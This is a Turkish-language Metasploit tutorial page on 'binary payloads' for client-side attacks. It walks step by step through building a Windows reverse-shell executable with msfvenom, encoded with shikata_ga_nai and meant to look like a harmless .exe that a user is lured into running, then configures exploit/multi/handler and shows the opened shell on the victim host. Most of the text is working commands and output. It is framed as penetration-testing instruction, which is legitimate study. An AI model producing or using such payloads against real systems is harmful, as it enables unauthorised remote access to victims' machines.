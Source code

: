 ```yaml
---
draft: false
title: MSF Binary Payloads
linkTitle: MSF Binary Payloads
translationKey: msf-binary-payloads
weight: 220
date: 2017-05-20T13:10:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır.
url: /tr/msf-binary-payloads/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## İstemci Taraflı Saldırılar

İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.

Pentest işlemi gerçekleştirenler, sistemde bulunan kullanıcının, bir şekilde linke tıklamasını veya zararlı yazılım çalıştırmasını sağladığında kendilerine hedef sistemde kapı açmış olurlar. Bu sebeple, istemci taraflı saldırılar, kullanıcıyla etkileşim gerektirmektedir. Bu tür saldırılar, sosyal mühendislik çalışmalarını da gerektirir.

Metasploit Framework, bu tür zararlı kodların oluşturması için bir çok modül sağlamaktadır.

## binary payloads

binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır. Dosyayı alacak kullanıcıya, önemli bir dosya hissi uyandırarak tıklaması sağlanır ve zararlı kod çalışır.

Bu yazıda, Metasploit Framework tarafından sağlanan `msfvenom` komut satırı aracı kullanılacaktır. `msfvenom` kullanarak `.exe`, `perl` veya `c` program çıktıları elde edebilirsiniz. Burada `.exe` formatı kullanılacaktır.

## Windows Reverse Shell Açan Payload Oluşturma

Hedef kullanıcının zararlı programı çalıştırdığında dinleyen IP adresine bağlanması için bir payload oluşturmak için `windows/shell/reverse_tcp` modülünü kullanacağız. Öncelikle bu modülün çalışmak için hangi değişkenlere ihtiyaç duyduğuna bakalım.

```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options for **payload/windows/shell/reverse_tcp:


       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm 
    sf 
    hdm 
    skape 

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```

Bu modül, çıktıda görüldüğü gibi `LHOST` ve `LPORT` değişkenlerinin ayarlanmasına ihtiyaç duymaktadır. Hedef platform olarak x86 mimari ve Windows işletim sistemi seçilmiştir. Oluşturacağımız payload için bir encoder kullanmamız gerekiyor. Bunun için de `x86/shikata_ga_nai` encoder modülünü kullanacağız. Bu şartlar altında aşağıdaki komut, encoder kullanarak `/tmp` klasörünün içinde `1.exe` isimli bir dosya oluşturacaktır.

```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=172.16.104.130 LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```

`1.exe` dosyamızın türünü kontrol edelim. `file` komutuyla yaptığımız kontrolde `1.exe` doyasının MS Windows dosyası olduğu aşağıda görülmektedir.

```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable (GUI) Intel 80386, for **MS Windows
```

## Dinleme Ayarları

Elimizde istemcinin tıklayıp çalıştıracağı `1.exe` dosyası artık hazır durumda. Şimdi, tıklama işlemi gerçekleştiğinde dinleyecek bir modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü ve içinde `payload windows/shell/reverse_tcp` dinleyici payload u kullanacağız.

Öncelikle `exploit/multi/handler` modülünü yükleyip seçeneklere bakalım.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description 
   ----  ---------------  --------  ----------- 


Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```

Gördüğünüz gibi exploit modülünde herhangi bir zorunlu değişken bulunmuyor. Şimdi payload ayarlaması yapalım.

```bash
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target 
```

Bu çıktıda görülmektedir ki Payload için `LHOST` ve `LPORT` değerlerinin girilmesi gerekmekte.

`LHOST`: Local Host yani yerelde dinleyecek IP adresini,

`LPORT`: Local Port, yani dinleyecek Port numarasını ifade eder.

Bu değerlerin, `msfvenom` komutuyla oluşturduğumuz `1.exe` dosyası için girdiğimiz değerler ile aynı olmasına dikkat edin. `1.exe` dosyası içinde hangi değerler gömülü ise zararlı yazılım bu bilgilere göre haberleşme sağlamak isteyecektir.

```bash
msf exploit(handler) > set LHOST 172.16.104.130
LHOST => 172.16.104.130
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) >
```

Tüm ayarlamaları yaptıktan sonra `exploit` komutuyla modül çalıştırılır ve dinlemeye başlanır. Aşağıda, dinleme sonucunda gerçekleşen bir istemci tıklaması sonucu açılan komut satırı görülmektedir.

```bash
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (474 bytes)
> Command shell session 2 opened (172.16.104.130:31337 -> 172.16.104.128:1150)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents>
```
